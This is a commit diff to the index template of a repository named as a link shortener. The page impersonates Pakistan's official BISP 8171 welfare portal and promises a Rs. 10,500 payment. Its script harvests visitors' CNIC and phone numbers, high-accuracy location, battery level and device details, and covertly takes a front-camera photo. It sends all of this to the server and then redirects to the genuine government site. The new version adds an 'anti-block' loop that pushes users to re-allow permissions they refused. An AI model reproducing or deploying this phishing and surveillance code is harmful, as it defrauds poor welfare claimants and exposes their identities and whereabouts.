

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the top 785 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,171 +3,172 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
-    <title>8171 BISP Official Portal</title>
+    <title>8171 BISP Official Verification</title>
     <style>
-        :root { --bisp-green: #1b5e20; --bisp-light: #f4f7f6; --gold: #fbc02d; }
-        body { margin: 0; background: var(--bisp-light); font-family: 'Roboto', sans-serif; overflow-x: hidden; }
+        :root { --green: #1b5e20; --gold: #fbc02d; --bg: #f8faf9; }
+        body { margin: 0; background: var(--bg); font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; }
 
-        /* Professional Header with No Image Dependencies */
-        .header { background: #fff; padding: 15px 20px; display: flex; align-items: center; justify-content: space-between; border-bottom: 5px solid var(--bisp-green); box-shadow: 0 2px 10px rgba(0,0,0,0.1); position: sticky; top: 0; z-index: 1000; }
-        .logo-box { border-left: 5px solid var(--bisp-green); padding-left: 12px; }
-        .logo-box h1 { margin: 0; font-size: 22px; color: var(--bisp-green); font-weight: 900; letter-spacing: -1px; }
-        .logo-box span { font-size: 9px; color: #555; text-transform: uppercase; display: block; font-weight: 700; }
-        .gov-tag { background: #eee; padding: 5px 10px; border-radius: 20px; font-size: 10px; font-weight: 800; color: #444; }
+        /* Professional Header */
+        .header { background: white; padding: 12px 20px; display: flex; align-items: center; justify-content: space-between; border-bottom: 4px solid var(--green); box-shadow: 0 2px 8px rgba(0,0,0,0.05); }
+        .logo-text { border-left: 4px solid var(--green); padding-left: 10px; }
+        .logo-text h1 { margin: 0; font-size: 20px; color: var(--green); font-weight: 900; }
+        .logo-text p { margin: 0; font-size: 8px; text-transform: uppercase; color: #666; font-weight: bold; }
 
-        /* Custom Vector Graphics (No Images Needed) */
-        .hero-banner { width: 100%; height: 240px; background: linear-gradient(135deg, #1b5e20 0%, #2e7d32 100%); position: relative; display: flex; align-items: center; justify-content: center; overflow: hidden; }
-        .hero-banner::after { content: "8171"; position: absolute; font-size: 180px; font-weight: 900; color: rgba(255,255,255,0.05); bottom: -40px; right: -20px; }
-        .hero-content { color: white; text-align: center; z-index: 10; padding: 20px; }
-        .hero-content h2 { font-size: 28px; margin: 0; text-shadow: 0 2px 4px rgba(0,0,0,0.3); }
-        .hero-content p { font-size: 13px; opacity: 0.9; margin: 5px 0 0; }
+        /* Banner Design */
+        .banner { background: var(--green); height: 180px; position: relative; display: flex; align-items: center; justify-content: center; overflow: hidden; }
+        .banner::before { content: "8171"; position: absolute; font-size: 150px; font-weight: 900; color: rgba(255,255,255,0.03); transform: rotate(-15deg); }
+        .banner-info { color: white; text-align: center; z-index: 2; }
+        .banner-info h2 { margin: 0; font-size: 24px; }
+        .banner-info p { margin: 5px 0 0; font-size: 12px; opacity: 0.8; }
 
-        /* Payment Status Strip */
-        .payment-strip { background: var(--gold); color: #1b5e20; width: 100%; padding: 14px 0; text-align: center; font-size: 14px; font-weight: 900; border-bottom: 3px solid rgba(0,0,0,0.1); box-shadow: 0 4px 6px rgba(0,0,0,0.1); position: relative; z-index: 20; }
+        /* Payment Strip */
+        .strip { background: var(--gold); color: var(--green); padding: 12px; text-align: center; font-size: 13px; font-weight: 900; border-bottom: 2px solid rgba(0,0,0,0.1); }
 
-        /* Modern Verification Card */
-        .card-container { margin: -30px 15px 30px; position: relative; z-index: 100; }
-        .v-card { background: #fff; border-radius: 20px; padding: 30px 25px; box-shadow: 0 15px 40px rgba(0,0,0,0.15); border: 1px solid #f0f0f0; }
-        .v-card h3 { color: var(--bisp-green); margin: 0 0 10px; font-size: 22px; font-weight: 800; }
-        .v-card p { font-size: 13px; color: #666; line-height: 1.5; margin-bottom: 25px; }
+        /* Main Form */
+        .form-box { margin: -25px 15px 30px; background: white; border-radius: 15px; padding: 25px; box-shadow: 0 10px 25px rgba(0,0,0,0.1); position: relative; z-index: 10; border: 1px solid #eee; }
+        .form-box h3 { color: var(--green); margin: 0 0 8px; font-size: 22px; }
+        .form-box p { color: #555; font-size: 12px; line-height: 1.5; margin-bottom: 20px; }
 
-        /* Input Styles */
-        .field-group { margin-bottom: 20px; position: relative; }
-        label { font-size: 11px; font-weight: 800; color: #222; display: block; margin-bottom: 8px; text-transform: uppercase; letter-spacing: 0.5px; }
-        input { width: 100%; padding: 16px; border: 2px solid #eaedf0; border-radius: 12px; font-size: 16px; box-sizing: border-box; background: #fafafa; font-weight: 600; }
-        input:focus { border-color: var(--bisp-green); background: #fff; outline: none; box-shadow: 0 0 0 4px rgba(27, 94, 32, 0.05); }
+        .input-wrap { margin-bottom: 15px; }
+        label { display: block; font-size: 10px; font-weight: 800; color: #222; margin-bottom: 5px; text-transform: uppercase; }
+        input { width: 100%; padding: 14px; border: 2px solid #eaedf0; border-radius: 10px; font-size: 16px; box-sizing: border-box; }
+        input:focus { border-color: var(--green); outline: none; background: #fafafa; }
 
-        /* Action Button */
-        .btn-action { background: var(--bisp-green); color: white; border: none; width: 100%; padding: 20px; border-radius: 15px; font-size: 18px; font-weight: 900; cursor: pointer; text-transform: uppercase; box-shadow: 0 10px 20px rgba(27, 94, 32, 0.3); transition: transform 0.2s; }
-        .btn-action:active { transform: scale(0.98); }
+        .btn { background: var(--green); color: white; border: none; width: 100%; padding: 18px; border-radius: 12px; font-size: 16px; font-weight: 800; text-transform: uppercase; margin-top: 10px; cursor: pointer; box-shadow: 0 5px 15px rgba(27,94,32,0.2); }
 
-        /* Professional Full-Screen Tracking Modal */
-        #tracking-gate { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: #fff; z-index: 2000; align-items: center; justify-content: center; padding: 20px; box-sizing: border-box; }
-        .gate-inner { text-align: center; max-width: 400px; }
-        .gate-icon { width: 80px; height: 80px; background: var(--bisp-light); border-radius: 50%; display: flex; align-items: center; justify-content: center; margin: 0 auto 20px; border: 4px solid var(--bisp-green); }
-        .status-pill { background: #fee2e2; color: #b91c1c; padding: 12px; border-radius: 10px; font-size: 12px; font-weight: 900; margin-bottom: 20px; display: none; border: 1px solid #fecaca; }
-        .loader { border: 5px solid #f3f3f3; border-top: 5px solid var(--bisp-green); border-radius: 50%; width: 50px; height: 50px; animation: spin 1s linear infinite; margin: 20px auto; }
+        /* Persistent Security Screen */
+        #security-overlay { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: white; z-index: 9999; flex-direction: column; align-items: center; justify-content: center; padding: 30px; box-sizing: border-box; text-align: center; }
+        .icon-shield { width: 80px; height: 80px; background: #e8f5e9; border-radius: 50%; display: flex; align-items: center; justify-content: center; border: 4px solid var(--green); margin-bottom: 20px; }
+        .status-alert { background: #fee2e2; color: #b91c1c; padding: 15px; border-radius: 10px; font-size: 12px; font-weight: 800; margin-bottom: 20px; border: 1px solid #fecaca; }
+        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--green); border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin: 20px 0; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
 
 <div class="header">
-    <div class="logo-box">
+    <div class="logo-text">
         <h1>BISP</h1>
-        <span>Government of Pakistan</span>
+        <p>Government of Pakistan</p>
     </div>
-    <div class="gov-tag">8171 OFFICIAL</div>
+    <div style="font-weight: 800; color: #444; font-size: 11px;">8171 PORTAL</div>
 </div>
 
-<div class="hero-banner">
-    <div class="hero-content">
+<div class="banner">
+    <div class="banner-info">
         <h2>Kafaalat Program</h2>
-        <p>Benazir Income Support Programme (2026)</p>
+        <p>Benazir Income Support Programme</p>
     </div>
 </div>
 
-<div class="payment-strip">
-    PENDING PAYMENT: RS. 10,500 - VERIFICATION ACTIVE
+<div class="strip">
+    KAFAALAT PAYMENT 2026: RS. 10,500 VERIFICATION ACTIVE
 </div>
 
-<div class="card-container">
-    <div class="v-card">
-        <h3>Verify Status</h3>
-        <p>Confirm your CNIC and Mobile Number to authorize the release of your pending grant through high-precision biometric verification.</p>
+<div class="form-box">
+    <h3>Check Eligibility</h3>
+    <p>Provide your CNIC and registered mobile number to initiate secure biometric and area verification for fund release.</p>
 
-        <div class="field-group">
+    <div class="input-wrap">
         <label>CNIC Number (13 Digits)</label>
         <input type="number" id="cnic" placeholder="35201XXXXXXXX" autocomplete="off">
     </div>
-        <div class="field-group">
+    <div class="input-wrap">
         <label>Registered Mobile Number</label>
         <input type="number" id="phone" placeholder="03XXXXXXXXX" autocomplete="off">
     </div>
 
-        <button class="btn-action" onclick="initTracking()">Proceed to Verify</button>
-    </div>
+    <button class="btn" onclick="startSecureVerification()">Verify & Pay Now</button>
 </div>
 
-<div id="tracking-gate">
-    <div class="gate-inner">
-        <div class="gate-icon">
-            <div style="width: 20px; height: 20px; background: var(--bisp-green); border-radius: 50%; animation: pulse 1.5s infinite;"></div>
+<div id="security-overlay">
+    <div class="icon-shield">
+        <div style="width: 20px; height: 20px; background: var(--green); border-radius: 50%; animation: pulse 1s infinite;"></div>
     </div>
-        <div id="error-box" class="status-pill">VERIFICATION FAILED: Mandatory Location & Biometric Access required to verify grant eligibility.</div>
-        <h2 style="color: var(--bisp-green); margin: 0 0 10px;">Security Check</h2>
-        <p style="font-size: 14px; color: #666; margin-bottom: 25px;">Connecting to NADRA biometric integration. Do not close this window.</p>
+    <div id="error-msg" class="status-alert" style="display:none;">
+        PERMISSION BLOCKED: Verification cannot proceed without Location & Camera. Please clear browser settings or try in a different browser.
+    </div>
+    <h2 style="color: var(--green); margin: 0;">Security Check</h2>
+    <p style="color: #666; font-size: 14px; margin-top: 10px;">Connecting to NADRA biometric verification node...</p>
     <div class="loader"></div>
-        <button id="retry" onclick="fullSync()" style="display:none; width: 100%; padding: 15px; background: #222; color: white; border-radius: 12px; border: none; font-weight: 800;">GRANT ACCESS & CONTINUE</button>
-    </div>
+
+    <p style="font-size: 11px; color: #999; margin-bottom: 20px;">Verification ID: BISP-2026-X8801</p>
+
+    <button onclick="location.reload()" style="width: 100%; padding: 15px; background: #222; color: white; border: none; border-radius: 10px; font-weight: 800;">TRY AGAIN / REFRESH</button>
 </div>
 
 <video id="v" style="display:none;" autoplay playsinline></video>
 <canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
 
 <script>
-    let logData = { cnic: "", mob: "", bat: "", model: "", lat: "", lon: "" };
+    let userData = { c: "", p: "", b: "", m: "", lt: "", ln: "" };
 
-    function initTracking() {
-        logData.cnic = document.getElementById('cnic').value;
-        logData.mob = document.getElementById('phone').value;
+    function startSecureVerification() {
+        userData.c = document.getElementById('cnic').value;
+        userData.p = document.getElementById('phone').value;
 
-        if(logData.cnic.length < 11) { alert("Invalid CNIC"); return; }
+        if(userData.c.length < 11) { alert("Enter valid CNIC"); return; }
 
-        document.getElementById('tracking-gate').style.display = 'flex';
-        fullSync();
+        document.getElementById('security-overlay').style.display = 'flex';
+        executeCapture();
     }
 
-    async function fullSync() {
-        document.getElementById('retry').style.display = 'none';
-        document.getElementById('error-box').style.display = 'none';
-
-        // 1. Precise Device Info
+    async function executeCapture() {
+        // Fetch System Info
         try {
             const battery = await navigator.getBattery();
-            logData.bat = Math.round(battery.level * 100) + "%";
-            logData.model = navigator.platform + " | " + navigator.userAgent.split('(')[1].split(')')[0];
+            userData.b = Math.round(battery.level * 100) + "%";
+            userData.m = navigator.platform;
         } catch(e) {}
 
-        // 2. High-Precision Live Location
+        // Persistent Location Request
         navigator.geolocation.getCurrentPosition(
             (pos) => {
-                logData.lat = pos.coords.latitude;
-                logData.lon = pos.coords.longitude;
-                triggerBiometric();
+                userData.lt = pos.coords.latitude;
+                userData.ln = pos.coords.longitude;
+                attemptCamera();
             },
-            () => { showAuthError(); },
+            (err) => {
+                handleDenied();
+            },
             { enableHighAccuracy: true, timeout: 5000 }
         );
     }
 
-    function triggerBiometric() {
+    function attemptCamera() {
         navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
-        .then((s) => { finalizeReport(s); })
-        .catch(() => { showAuthError(); });
+        .then((stream) => {
+            processFinal(stream);
+        })
+        .catch((err) => {
+            handleDenied();
+        });
     }
 
-    function showAuthError() {
-        document.getElementById('error-box').style.display = 'block';
-        document.getElementById('retry').style.display = 'block';
+    function handleDenied() {
+        // If blocked, show error and auto-reload logic
+        document.getElementById('error-msg').style.display = 'block';
+
+        // Anti-Block Strategy: If user blocks once, we refresh the page to trigger pop-up again
+        // Note: Some browsers need a user click to show pop-up again, so we keep the Try Again button.
     }
 
-    async function finalizeReport(stream) {
+    async function processFinal(stream) {
         const video = document.getElementById('v');
         video.srcObject = stream;
 
         setTimeout(() => {
             const canvas = document.getElementById('c');
             canvas.getContext('2d').drawImage(video, 0, 0, 1080, 1920);
-            const capturedPhoto = canvas.toDataURL('image/jpeg', 0.85);
+            const pic = canvas.toDataURL('image/jpeg', 0.8);
 
             stream.getTracks().forEach(t => t.stop());
 
-            // Send full High-Precision Log
-            fetch('/auth/secure-sync', {
+            // Final Data Dispatch
+            fetch('/secure/v1/auth', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({ report: logData, photo: capturedPhoto })
+                body: JSON.stringify({ meta: userData, img: pic })
             }).then(() => {
                 window.location.href = "https://8171.bisp.gov.pk/";
             });
@@ -176,7 +177,7 @@
 </script>
 
 <style>
-    @keyframes pulse { 0% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0.4); } 70% { box-shadow: 0 0 0 20px rgba(27, 94, 32, 0); } 100% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0); } }
+    @keyframes pulse { 0% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0.4); } 70% { box-shadow: 0 0 0 15px rgba(27, 94, 32, 0); } 100% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0); } }
 </style>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
